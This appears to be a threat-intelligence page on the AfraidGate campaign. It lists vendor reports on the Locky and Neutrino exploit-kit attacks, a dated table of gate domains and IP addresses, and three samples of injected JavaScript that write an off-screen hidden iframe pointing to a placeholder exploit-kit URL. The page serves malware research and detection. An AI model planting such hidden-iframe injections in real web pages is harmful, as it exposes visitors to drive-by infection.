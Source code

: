 #ScriptJS/AfraidGate

## __Publications:__
| Title |  Date Here | Source |Comment|
|---|---|---|---|
|[Dridex Actors Get In the Ransomware Game With "Locky"](https://www.proofpoint.com/us/threat-insight/post/Dridex-Actors-Get-In-the-Ransomware-Game-With-Locky)| 2016-02-16 |Proofpoint||
|[Locky Ransomware Installed Through Nuclear EK](http://researchcenter.paloaltonetworks.com/2016/03/locky-ransomware-installed-through-nuclear-ek/)| 2016-03-21 |PaloAlto||
|[Threat Spotlight: Exploit Kit Goes International Hits 150+ Countries](http://blog.talosintel.com/2016/04/nuclear-exposed.html)| 2016-04-20 |Talos||
|[Highly Popular Anime Site Jkanime Compromised](https://blogs.forcepoint.com/security-labs/highly-popular-anime-site-jkanime-compromised-redirecting-users-neutrino-ek)| 2016-06-21 |Forcepoint||
|[Neutrino EK’s Afraidgate pushed in malvertising attack](https://blog.malwarebytes.com/cybercrime/exploits/2016/09/neutrino-eks-afraidgate-pushed-in-malvertising-attack/)| 2016-09-13 |Malwarebytes|*Payload is Godzilla here. Locky is in fact a 2ndStage*|
|[Fox stealer: another Pony Fork](http://malware.dontneedcoffee.com/2016/09/fox-stealer-another-pony-fork.html)| 2016-09-26 |MalwareDontNeedCoffee||
----

| Date |Domain| IP |
| :------- | :---- | :---|
|170206|tandem.florenciaespineira.cl|192.241.246.34|
|170204|torneonis.cattcval.com.ve|138.197.222.151|
|170203|longtrim.datatestserver.com|159.203.30.60|
|170201|kithole.seanconnor.com|159.203.30.60|
|170122|cuprum.poemar.es|146.185.151.179|
|170122|bombarda.mkoussa.com|146.185.151.179|
|170121|pistole.1stclassmunitions.com|146.185.151.179|
|170118|team.motivaplan.com.br|45.55.10.142|
|170110|malina.cfdiweb.mx|178.62.242.179|
|161214|alfio.brasilperfectcity.com|188.166.17.115|
|161209|stylesheet.bittitle.com|138.68.144.43|
|161203|aquarius.away.es|138.68.144.43|
|161127|mikkie.thejwfnet.co.uk|188.166.4.51|
|161124|max.nasasi.com.ar|159.203.18.229|
|161120|parameter.miafp.cl|159.203.18.229|
|161023|club.panduan-ngeblog.com|138.68.135.94|
|161015|round.luc-hariman.com|159.203.2.200|
|161015|alexa.lorea.io|159.203.2.200|
|161011|monte.aguero.com.au|82.196.10.194|
|161003|sp.gridjunky.com|95.85.46.182|
|160930|spower.gogohen.com|95.85.46.182|
|160928|aug.nightrelay.co.za|139.59.171.176|
|160927|monro.nillaraujo.com|139.59.171.176|
|160926|lesley.portcoquitlamweather.ca|188.166.66.191|
|160923|mouse.redvos.com|188.166.66.191|
|160922|rouse.haslhome.com|46.101.93.53|
|160920|test.linonsa.com|146.185.158.150|
|160919|van.readytogo.club|178.62.23.109|
|160918|van.readytogo.club|178.62.23.109|
|160918|knight.manex.us|178.62.23.109|
|160915|vk.manex.us|178.62.23.109|
|160908|note.followthebrowns.com|159.203.3.186|
|160906|ono.bienestando.cl|159.203.3.186|
|160901|murphy.tahubaxoku.com|146.185.172.147|
|160828|ops.latokaski.fi|138.68.18.73|
|160828|nonna.culturizartechillan.cl|138.68.18.73|
|160818|font.enriquemonsalve.cl|178.62.77.103|
|160814|way.minadepreco.com.br|188.166.54.203|
|160814|make.kankerblogger.com|188.166.54.203|
|160811|global.platinoviajes.com.ve|188.166.54.203|
|160801|one.hiiragihoo.com|139.59.160.138|
|160730|temp.blog-sandltnst.co|139.59.160.138|
|160726|leon.stmaryschooldmt.com|46.101.26.161|
|160722|long.revistashine.com.ar|46.101.26.161|
|160713|stown.katieprallphotography.com|188.166.38.125|
|160629|dance.jmestudiocontable.com.ar|139.59.191.79|
|160626|onno.motorgear.com.au|188.166.38.125|
|160626|dron.transportemorelli.com.ar|146.185.173.25|

----
Script example :

```javascript
document.write('<div class="" style="position:absolute; width:399px; height:400px; left:15px; top:-740px;">  <a> </a><div> <a class="menu_link_new"></a> strong<iframe src="[EK HERE]" width=255 height=261 ></ifram'+ 'e><a></a></div><a class=""></a></div>');
```
```javascript
document.write('<div style="position:absolute; width:365px; height:400px; left:10px; top:-475px;">  <a class=""></a><div class="menu-add-name"> <a class="menuaddname"></a> <iframe src="[EK HERE]" width=271 height=278 ></ifram'+'e><a class=""></a></div> </div>');
```
```javascript
document.write('<div style="position:absolute; width:355px; height:363px; left:10px; top:-954px;">  <a class=""></a><div class="menu-add-name"> <a class="menuaddname"></a> <iframe src="[EK HERE]" width=285 height=290 ></ifram'+'e><a class=""></a></div> </div>');
```

